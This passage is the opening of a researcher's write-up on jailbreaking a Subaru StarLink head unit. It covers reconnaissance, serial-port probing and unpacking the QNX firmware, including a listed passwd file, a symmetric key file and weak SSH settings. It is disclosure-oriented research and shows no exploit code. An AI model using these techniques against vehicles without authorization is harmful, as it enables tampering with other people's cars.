









# Jailbreaking Subaru StarLink



Another year, another embedded platform. This exercise, while perhaps less important than the [medical security research](https://github.com/sgayou/medfusion-4000-research) I've worked on the past, is a bit more practical and entertaining. What follows is a technical account of gaining persistent root code execution on a vehicle head unit.

## Table of Contents

- [Jailbreaking Subaru StarLink](#jailbreaking-subaru-starlink)
  * [Table of Contents](#table-of-contents)
  * [Introduction](#introduction)
    + [Shared Head Unit Design](#shared-head-unit-design)
    + [Existing Efforts](#existing-efforts)
      - [SSH](#ssh)
    + [Finding the Manufacturer](#finding-the-manufacturer)
    + [Harman and QNX](#harman-and-qnx)
      - [Dr. Charlie Miller & Chris Valasek's Paper](#dr-charlie-miller--chris-valaseks-paper)
    + [First Recap](#first-recap)
  * [Analysis of Attack Surfaces](#analysis-of-attack-surfaces)
    + [USB Update Mechanism](#usb-update-mechanism)
    + [On My Warranty](#on-my-warranty)
  * [Hardware Analysis](#hardware-analysis)
    + [Board Connectors](#board-connectors)
    + [Serial Port](#serial-port)
    + [Installing the Update](#installing-the-update)
  * [Firmware](#firmware)
    + [swdl.iso](#swdliso)
    + [IFS Files](#ifs-files)
      - [ifs-subaru-gen3.raw Contents](#ifs-subaru-gen3raw-contents)
        * [Files of Note](#files-of-note)
      - [minifs.ifs Contents](#minifsifs-contents)
      - [ISO Modification](#iso-modification)
  * [Reverse Engineering QNXCNDFS](#reverse-engineering-qnxcndfs)
    + [installUpdate Flow](#installupdate-flow)
    + [cdqnx6fs](#cdqnx6fs)
      - [Cluster Table](#cluster-table)
      - [Cluster Data](#cluster-data)
    + [Decrypting](#decrypting)
    + [Key Generation](#key-generation)
      - [Emulation](#emulation)
    + [Cluster Decryption](#cluster-decryption)
    + [Cluster Decompression](#cluster-decompression)
    + [Mounting the Image](#mounting-the-image)
    + [The Extents Section](#the-extents-section)
    + [Understanding the Extents](#understanding-the-extents)
    + [Final Decompression](#final-decompression)
  * [system.dat](#systemdat)
    + [ifs_images](#ifs_images)
  * [Back to QNXCNDFS](#back-to-qnxcndfs)
    + [The Shadow File](#the-shadow-file)
    + [Non-privileged Code Execution](#non-privileged-code-execution)
    + [Image Creation](#image-creation)
    + [Root Escalation](#root-escalation)
      - [Backdooring SSH](#backdooring-ssh)
  * [Putting it All Together](#putting-it-all-together)
    + [CVE-2018-18203](#cve-2018-18203)
    + [Next Steps](#next-steps)
  * [Notes from Subaru and Harman](#notes-from-subaru-and-harman)
    + [Note from Subaru](#note-from-subaru)
    + [Note from Harman](#note-from-harman)
  * [Conclusion](#conclusion)

## Introduction

Back in June, I purchased a new car: the 2018 Subaru Crosstrek. This vehicle has an interesting head unit that's locked down and running a proprietary, non-Android operating system. Let's root it.

If this was Android, we could most likely find plenty of pre-existing PoCs and gain root rather trivially as most vehicle manufacturers never seem to update Android. Because this isn't an old Android version, we'll have to put a little more work in than usual.

### Shared Head Unit Design

In 2017, Subaru launched a new version of their StarLink head unit on the Impreza. The same head unit appears to be used on the 2018+ Crosstrek, as well as the latest Forester and Ascent. If we can root the base device, we can potentially root every head unit on every vehicle sharing the same platform.

There are a few SKUs for the head units on the Crosstrek and Impreza. The cheapest model has a 6-inch screen. A higher trim model has an 8-inch screen, and the top of the line model has the 8-inch screen as well as an embedded GPS mapping system. All models support Apple Carplay and Android Auto. The 8-inch models can connect to WiFi networks and theoretically download firmware updates wirelessly, but this functionality doesn't seem to be in use yet.

### Existing Efforts

Starting from scratch, we know virtually nothing about the head unit. There are no obvious debugging menus, no firmware versions listed anywhere, and no clear manufacturer. First, we need to research and find out if anyone else has already accomplished this or made any progress understanding the unit. The only useful data was posted by redditor nathank1989. See his [post](https://www.reddit.com/r/subaruimpreza/comments/6joio5/ssh_into_starlink/) in /r/subaruimpreza, and, more importantly, the replies.

To quote his post:

> SSH Into STARLINK
>
> Just got myself the 2017 Impreza Sport and can see there's an open SSH server.
>
> Kudos to the person who knows what is or how to find the root user and password. 2 hours of googling has yielded nothing.

SSH is a good sign — we're mostly likely running some sort of Unix variant. Further down in the Reddit post, we have a link to a firmware update. This will save us time as getting access to a software update is sometimes quite difficult with embedded systems.

Subaru later took this firmware update down. They had linked to it from the technical service manuals you can purchase access to through Subaru. It appears that Subarunet did not require any form of authentication to download files originally. I did not get the files from this link as they were down by the time I found the thread, but, the files themselves had been mirrored by many Subaru enthusiasts. These files can be placed on a USB thumb drive, inserted into the vehicle's USB ports, and the firmware installed on the head unit.

Aside from this, there really isn't much information out there.

#### SSH

What happens if we connect to SSH over WiFi?

```
****************************** SUBARU *******************************
Warning - You are knowingly accessing a secured system. That means
you are liable for any mischeif you do.
*********************************************************************

root@192.168.0.1's password:
```

Dead end. Brute forcing is a waste of time and finding an exploit that would only work on the top tier of navigation models with WiFi isn't practical.

### Finding the Manufacturer

We can find the manufacturer (Harman) in several different ways.

1. I originally discovered it was Harman after I searched several auction sites for Subaru Impreza head units stripped out of wrecked vehicles. There were several for sale that had pictures showing stickers on the removed head unit with serial numbers, model numbers, and, most importantly, the fact that Harman manufacturers the device.
2. Another way would be to remove the head unit from a vehicle, but I'm not wealthy enough to void the warranty on a car I enjoy, and I've never encountered a dash that comes out without tabs breaking.
3. The technical manuals you can pay for most likely have this information as well as the head unit pinout.
4. Hidden debug and dealer menus are accessible via key combinations. One of these menus hints that the device is running QNX and is from Harman. See another useful [Reddit post](https://www.reddit.com/r/subaru/comments/7fi202/2018_radio_hidden_menus/) by ar_ar_ar_ar.

From the debug menu, we know we're running QNX 6.60.



### Harman and QNX

Now that we know the manufacturer and OS, we can expand the search a bit. There are a few interesting publications on Harman head units, and one of them is both useful and relatively up-to-date.

#### Dr. Charlie Miller & Chris Valasek's Paper

Back in 2015, Dr. Charlie Miller and Chris Valasek presented their automotive research at Blackhat: [Remote Exploitation of an Unaltered Passenger Vehicle](http://illmatics.com/Remote%20Car%20Hacking.pdf). This is, by far, the best example of public research on Harman head units.

Thank you to Dr. Miller and Chris for publishing far more details than necessary. The paper covers quite a few basics of Harman's QNX system and even shows the attacks they used to gain local code execution. Although the system has changed a bit since then, it is still similar in many ways and the paper is well worth reviewing.

### First Recap

At this point, we know the following:

1. This is a Harman device.
2. It is running QNX 6.60.
3. We have a firmware image.

## Analysis of Attack Surfaces

Where do we begin? We can attack the following systems, listed by approximate difficulty, without having to disassemble the vehicle:

1. Local
  * USB Update Mechanism
  * USB Media Playback (metadata decoding?)
  * OBD?
  * iPod Playback Protocol
  * Carplay/Android Auto Interfaces
  * CD/DVD Playback & Metadata Decoding
2. Wireless
  * WiFi
  * Bluetooth
  * FM Traffic Reception / Text Protocols

There are more vectors, but attacking them often isn't practical at the hobbyist level.

### USB Update Mechanism

The biggest attack vector (but not necessarily the most important) on a vehicle head unit is almost always the head unit software update mechanism. Attackers need a reliable way to gain access to the system to explore it for other vulnerabilities. Assuming it can be done, spoofing a firmware update is going to be a much more "global" rooting mechanism than any form of memory corruption or logic errors (barring silly mistakes like open Telnet ports/DBUS access/trivial peek/poke etc.). Thus, finding a flaw like this would be enormously valuable from a vulnerability research perspective.

### On My Warranty

If we’re going to start attacking an embedded system, we probably shouldn’t attack the one in a real, live vehicle used to drive around town. More than likely nothing bad would happen assuming correct system design and architecture (a safe assumption?), but paying to have the dealer replace the unit would be very expensive. This could also potentially impact the warranty, which could be cost-prohibitive.

Auction sites have plenty of these for sale from salvage yards for as low as $200. That's a fantastic deal for a highly proprietary system with an OEM cost of more than $500.

## Hardware Analysis

Before we look at the firmware images we grabbed earlier, let's evaluate the hardware platform.

This is pretty standard for embedded systems. First, figure out how to power on the system. We need a DC power supply for the Subaru head unit as well as the wiring diagram for the back of the unit in order to know what to attach the power leads to. I didn't feel like paying the $30 for access to the technical manual, so I searched auction sites for a while, eventually found a picture of the wiring harness, noted that the harness had one wire that was much thicker than the others, guessed that was probably power, attached the leads, prayed, and powered the unit on. I don't recommend doing that, but it worked this time.



Next, disassemble the device and inventory the chips on the system.



Important parts:
* ARM processors.
* USB ports. (correspond to the USB ports in the car for iPhone attachment etc)
* Unpopulated orange connectors. (Interesting!)
* 32GB eMMC.

The eMMC is a notable attack vector. If we had unlimited time and money, dump the contents via attaching test points to nearby leads else by desoldering the entire package. Unfortunately, I don't have the equipment for this. At minimum I'd want a rather expensive stereo microscope, and that isn't worth the cost to me. One could potentially root the device by desoldering, dumping, modifying a shadow file, reflashing, and resoldering. A skilled technician (i.e. professional attacker) in a well-equipped lab could do this trivially.

### Board Connectors

There are strange looking orange connectors with Kapton tape covering them. How do we find the connectors so we can easily probe the pins?



We could trawl through tiny, black and white DigiKey pictures for a while and hopefully get lucky, but asking electronics.stackexchange.com is far simpler. I posted the question and had many members helpfully identify the connector as Micromatch in less than an hour. Fantastic. Order [cable assemblies](https://www.digikey.com/product-detail/en/1483353-3/A128014-ND/6042595?so=55741688) from DigiKey, attach them, then find the 9600 or 115200 baud serial port every embedded system under the sun always has. Always.



### Serial Port

```
SUBARU Base, date:Jul 11 2017
Using eMMC Boot Area
loader in 79 ms
board_rev = 6

Startup: time between timer readings (decimal): 39378 useconds
Welcome to QNX 660 on Harman imx6s Subaru Gen3 ARM Cortex-A9 MPCore
login: RVC:tw9990_fast_init: Triggered TW9990 HW Reset
RVC:tw9990_fast_init: /dev/i2c4 is ready
WFDpixel_clock_kHz: 29760
WFDhpixels: 800
WFDhfp: 16
WFDhsw: 3
WFDhbp: 45
WFDvlines: 480
WFDvfp: 5
WFDvsw: 3
WFDvbp: 20
WFDflags: 2
RVC:tw9990_fast_init: Decoder fast init completed
[Interrupt] Attached irqLine 41 with id 20.
[Interrupt] Attached irqLine 42 with id 21.

root
root
Password:

Login incorrect
```

Serial has a username and password. A good guess is that it's using the exact same credentials as the SSH server. Another dead end. At this point I tried breaking into some form of bootloader on boot via keystrokes and grounding various chips, but no luck.

There are other pins, so we could look for JTAG, but since we have a firmware update package, let's investigate that first. JTAG would involve spending more money, and part-time embedded security research isn't exactly the most lucrative career choice.

### Installing the Update

To install the update, we first need to solder on a USB socket so we can insert a flash drive into the test setup. Subaru seems to sell these cables officially for around 60$. The cheaper way is to splice a USB extension cord and solder the four leads directly to the board.

After doing this step, the system accepts the downloaded update. The device I purchased from a salvage yard actually had a newer firmware version than the files I got from various Subaru forums. The good news is that the system supports downgrading and does not appear to reject older firmwares. It also happily reinstalls the same firmware version on top of itself.



Now onto the firmware analysis stage.

## Firmware

Here's what the update package has:

```console
BASE-2017MY Impreza Harman Audio Update 06-2017/update/KaliSWDL$ ls -lash
total 357M
   0 drwxrwxrwx 1 work work 4.0K Jun  7  2017 .
   0 drwxrwxrwx 1 work work 4.0K Jun  7  2017 ..
4.0K -rwxrwxrwx 1 work work 1.8K Jun  7  2017 checkswdl.bat
 44K -rwxrwxrwx 1 work work  43K Jun  7  2017 KaliSWDL.log
784K -rwxrwxrwx 1 work work 782K Jun  7  2017 md5deep.exe
167M -rwxrwxrwx 1 work work 167M Jun  7  2017 swdl.iso
   0 -rwxrwxrwx 1 work work   48 Jun  7  2017 swdl.iso.md5
 86M -rwxrwxrwx 1 work work  86M Jun  7  2017 swupdate.dat
104M -rwxrwxrwx 1 work work 104M Jun  7  2017 system.dat
```

* checkswdl.bat - Checks the md5sum of swdl.iso and compares it with swdl.iso.md5. Prints a nice ~~pirate ship~~ thumbs-up on a successful verification, else a pirate flag on failure.

```
            _@_
           ((@))
            ((@))
           ((@))
______===(((@@@@====)
##########@@@@@=====))
##########@@@@@----))
###########@@@@----)
========-----------

!!!  FILE IS GOOD  !!!!
```

At first, I thought the only signature checking on the update was a md5 sum we could modify in the update folder. Thankfully, that assumption was incorrect.

* KaliSWDL.log - Build log file. This doesn't look like it needs to be included with the update package. My guess is that it is just a build artifact Harman didn't clean up.

```
VARIANT       : NAFTA
LOGFILE       : F:\Perforce\Jenkins\Slave\workspace\Subaru_Gen3_Release_Gen3.0\project\build\images\KaliSWDL\KaliSWDL.log
MODELYEAR     : MY2017
BUILD VERSION : Rel2.17.22.20
BUILD YEAR    : 17
BUILD WEEK    : 22
BUILD PATCH   : 20
BUILD TYP     : 1
BUILD BRANCH  : Rel
BUILD VP      : Base
The system cannot find the file specified.
The system cannot find the file specified.
The system cannot find the file specified.
The system cannot find the file specified.
- BuildType - 1
- Build Branch - Rel
- Build Version Year - 17
- Build version Week - 22
- Build Version Patch - 20
- Model Year - MY2017
- Market - NA
- Market - NA
- VP - Base
- Salt - 10
```

* swdl.iso - ISO file containing lots of firmware related files. Guessing the ISO format was left over from older Harman systems where firmware updates were burned onto CDs.
* dat files - swupdate.dat and system.dat are high entropy files with no strings. Almost certainly encrypted. Only useful piece of information in the file is "QNXCNDFS" right at the beginning. Search engines, at the time I first looked at this, had no results for this filetype. My guess was that it was custom to Harman and/or QNX.

```console
$ hexdump -Cv -n 96 swupdate.dat
00000000  51 4e 58 43 4e 44 46 53  01 03 01 00 03 00 00 00  |QNXCNDFS........|
00000010  00 c0 ff 3f 00 00 00 00  8c 1d 5e 05 00 00 00 00  |...?......^.....|
00000020  00 a4 07 0c 00 00 00 00  00 02 00 00 00 00 00 00  |................|
00000030  80 02 00 00 00 00 00 00  90 0e 00 00 00 00 00 00  |................|
00000040  04 00 00 00 00 00 00 00  c1 00 00 00 00 00 00 00  |................|
00000050  00 00 10 00 00 80 10 00  04 00 00 00 04 00 00 00  |................|
```

As the dat files look encrypted, starting with the ISO file makes the most sense.

### swdl.iso

The ISO contains many files. More build artifacts with logs from the build server, what look like bootloader binary blobs, several QNX binaries with full debug symbols we can disassemble, one installation shell-script and, most importantly, IFS files.

```console
$ file softwareUpdate
softwareUpdate: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV), dynamically linked, interpreter /usr/lib/ldqnx.so.2, BuildID[md5/uuid]=381e70a72b349702a93b06c3f60aebc3, not stripped
```

### IFS Files

QNX describes [IFS](http://www.qnx.com/developers/docs/7.0.0/#com.qnx.doc.neutrino.building/topic/intro/intro_ifs.html) as:

> An OS image is simply a file that contains the OS, plus any executables, OS modules, and data files that are needed to get the system running properly. This image is presented in an image filesystem (IFS).

Thus, IFS is a binary format used by QNX. The only other important information to note here is that we can extract them with tools available on github. See [dumpifs](https://github.com/askac/dumpifs).

#### ifs-subaru-gen3.raw Contents

Running dumpifs on ifs-subaru-gen3.raw gets us this:

```console
Decompressed 1575742 bytes-> 3305252 bytes
   Offset     Size  Name
        0        8  *.boot
        8      100  Startup-header flags1=0x9 flags2=0 paddr_bias=0
      108    52008  startup.*
    52110       5c  Image-header mountpoint=/
    5216c     1994  Image-directory
     ----     ----  Root-dirent
    54000    8e000  proc/boot/procnto-instr
    e2000     16f4  proc/boot/.script
    e4000      521  bin/.kshrc
    e5000      2e6  bin/boot.sh
    e6000      10d  bin/mountMMC0.sh
    e7000       63  bin/umountMMC0.sh
    e8000       6b  bin/mountUSB.sh
    e9000      2b9  bin/mountUSBUpdate.sh
    ea000      6d6  bin/startUpdate.sh
```

Lots of base operating system files. We can extract most of them via `dumpifs -bx ifs-subaru-gen3.raw`.

```console
$ ls
authorized_keys                   ftpd.conf               libtracelog.so.1        shadow
banner                            ftpusers                ln                      slay
Base.pub                          getconf                 login                   sleep
boot.sh                           gpio.conf               lsm-pf-v6.so            slogger2
cam-disk.so                       group                   mount                   spi-master
cat                               hosts                   mount_ifs               spi-mx51ecspi.so
checkForUpdate.sh                 i2c-imx                 mountMMC0.sh            sshd_config
cp                                ifs-subaru-gen3.raw     mountUSB.sh             ssh_host_dsa_key
devb-sdmmc-mx6_generic            img.conf                mountUSBUpdate.sh       ssh_host_key
devc-pty                          inetd.conf              mv                      ssh_host_rsa_key
devc-sermx1                       init.sh                 NAFTA.pub               startNetwork.sh
dev-ipc                           io                      passwd                  startRvc.sh
dev-memory                        io-blk.so               pf.conf                 startUpdate.sh
dev-mmap                          ipl-subaru-gen3.bin     pf.os                   SubaruPubkey.pmem
earlyStartup.sh                   ksh                     pipe                    symm.key
echo                              libcam.so.2             prepareEMMCBootArea.sh  sync
eMMCFactoryFormat.sh              libc.so.3               procnto-instr           touch
eMMCFormat.sh                     libdma-sdma-imx6x.so.1  profile                 umount
enableBootingFromEMMCBootArea.sh  libfile.so.1            rm                      umountMMC0.sh
fram.conf                         libslog2parse.so.1      scaling.conf            uname
fs-dos.so                         libslog2shim.so.1       scaling_new.conf        updateIPLInEMMCBootArea.sh
fs-qnx6.so                        libslog2.so.1           services                waitfor
```

This clearly isn't even close to all of the files the system will use to boot and launch the interface, but it's a start.

##### Files of Note

* authorized_keys - key for sshd. Probably how Harman engineers can login over SSH for troubleshooting and field support.
* banner - sshd banner we see when we connect over WiFi. This indicates that we're looking at the right files.
* sshd_config - AllowUsers root, PasswordAuthentication yes, PermitRootLogin yes, Wow!
* passwd:

```console
root:x:0:0:Superuser:/:/bin/sh
daemon::1:2:daemon:/:
dm::2:8:dwnmgr:/:
ubtsvc:x:3:9:bt service:/:
logger:x:101:71:Subaru Logger:/home/logger:/bin/sh
certifier:x:102:71:Subaru Certifier:/home/certifier:/bin/sh
```

* shadow - Password hashes for root and other accounts. QNX6 hashtype is supported by JTR (not hashcat as far as I am aware), but doesn't appear to be GPU accelerated. I spent several days attempting a crack on a 32-core system using free CPU credits I had from one of the major providers, but without GPU acceleration, got nowhere. As long as they made the password decently complicated, there isn't much we can do.
* startnetwork.sh - Starts "asix adapter driver" then loads a DHCP client. AKA we can buy a cheap USB to Ethernet adapter, plug it into the head unit's USB ports, and get access to the vehicles internal network. This allows us access to sshd on base units that do not have the wireless chipset. This is almost certainly how Harman field engineers troubleshoot vehicles. We can verify this works by buying an ASIX adapter, plugging it in, powering up the head unit, watching traffic on Wireshark, and seeing the DHCP probes.
* symm.key - Clearly a symmetric key. Obvious guess is the key that decrypts the .dat files. Perfect.

#### minifs.ifs Contents

There are other IFS files included in the ISO. miniifs seems to contain most of the files used during the software update process.

Almost every command line binary on the system has handy help descriptions we can get via strings:

```console
%C softwareUpdate
Usage =>
--------
 To Start Service
installUpdate  -c  language files
               -l  language id
               -i  ioc channel name ( e.g. /dev/ioc/ch4)
               -b  If running on Subaru Base Variant
               -p  pps path to platform features, e.g /pps/platform/features
               -r  config file path for RH850 Binary mapping
 e.g)# installUpdate &
       or
     # e.g) # installUpdate -l french_fr &NAME=installUpdate
DESCRIPTION=installUpdate
```

There are too many files to note here, but a few stand out:

* andromeda - An enormous 17MB-20MB binary blob that seems to run the UI and implement most of the head unit functionality. Looks to make heavy use of QT.
* installUpdate - Installs update files.
* installUpdate.sh - Shell script that triggers the update. Unknown who or what calls this script.

So, installUpdate.sh executes this at the end:

```bash
echo " -< Start of InstallUpdate Service >- "
installUpdate -c /fs/swMini/miniFS/usr/updatestrings.json -b
postUpdate.sh
```

What's in updatestrings.json?

```
"SWDL_USB_AUTHENTICATED_FIRST_SCREEN": "This update may take up to 60 minutes to<br>complete. Please keep your vehicle running<br>(not Accessory mode)
throughout the entire<br>installation.",
"SWDL_USB_AUTHENTICATED_SECOND_SCREEN": "If you update while your vehicle is idling,<br>please make sure that your vehicle<br>is not in an enclosed spa
ce such as a<br>garage.",
"SWDL_USB_AUTHENTICATED_THIRD_SCREEN": "The infotainment system will be temporarily<br>unavailable during the update.<br>Current Version: %s<br>Availab
le Version: %s<br>Would you like to install now?",
"SWDL_USB_AUTHENTICATED_THIRD_SCREEN_SAME_IMAGE": "The infotainment system will be temporarily<br>unavailable",
```

The file contains the same strings shown to the user through the GUI during the software update process.

Hence, installUpdate is almost certainly the file we want to reverse engineer to understand the update process. Remember the encrypted dat files with the QNXCNDFS header? Let's see if any binaries reference that string.

```console
$ ag -a QNXCNDFS
Binary file cdqnx6fs matches.
Binary file cndfs matches.
```

```console
$ strings cndfs
%C - condense / restore Power-Safe (QNX6) file-systems
%C -c [(general-option | condense-option)...] src dst
%C -r [(general-option | restore-option)...] src dst
General options:
 -C dll          specify cache-control DLL to use with direct I/O
 -f              force use of direct I/O, even if disk cache cannot be
                 discarded
 -I              use direct I/O for reading data
 -k key          specify the key to use for data encryption / decryption.
                 <key> must be a string of hexadecimal digits, optionally
                 separated by punctuation characters.
 -K dll[,args]   specify a DLL to provide the key to use for data encryption
                 or decryption. Optionally, an arguments string can be added
                 which will be passed to the key provider function. See below.
 -O              use direct I/O for writing data
 -p name         store progress information in shared-memory object <name>
 -s size         specify the chunk size [bytes]  (default: 1M)
 -S              enable synchronous direct I/O. This should cause io-blk to
                 discard cached blocks on direct I/O, which may reduce
                 performance. Default is to try and discard the cache for the
                 entire device before any I/O is performed (see -f option).
 -v              increase verbosity
 -?              print this help
Condense-options:
 -b size         specify the raw block size for compression [bytes]
                 (default: 64k)
 -c              condense file-system <src> into file <dst>
 -d num          specify the data hashing method. <num> must be in the range
                 0..7  (default: 4). See below for supported methods.
 -D              deflate data
 -h num          specify the header hashing method. <num> must be in the range
                 0..6  (default: 4). See below for supported methods.
 -m num          specify the metadata hashing method. <num> must be in the
                 range 0..6  (default: 4). See below for supported methods.
Restore-options:
 -r              restore file-system <dst> from condensed file <src>
 -V              verify written data during restoration
Where:
 src      is the source file / block device
 dst      is the destination file / block device
Hash methods:
 0 = none
 1 = CRC32
 2 = MD5
 3 = SHA224
 4 = SHA256
 5 = SHA384
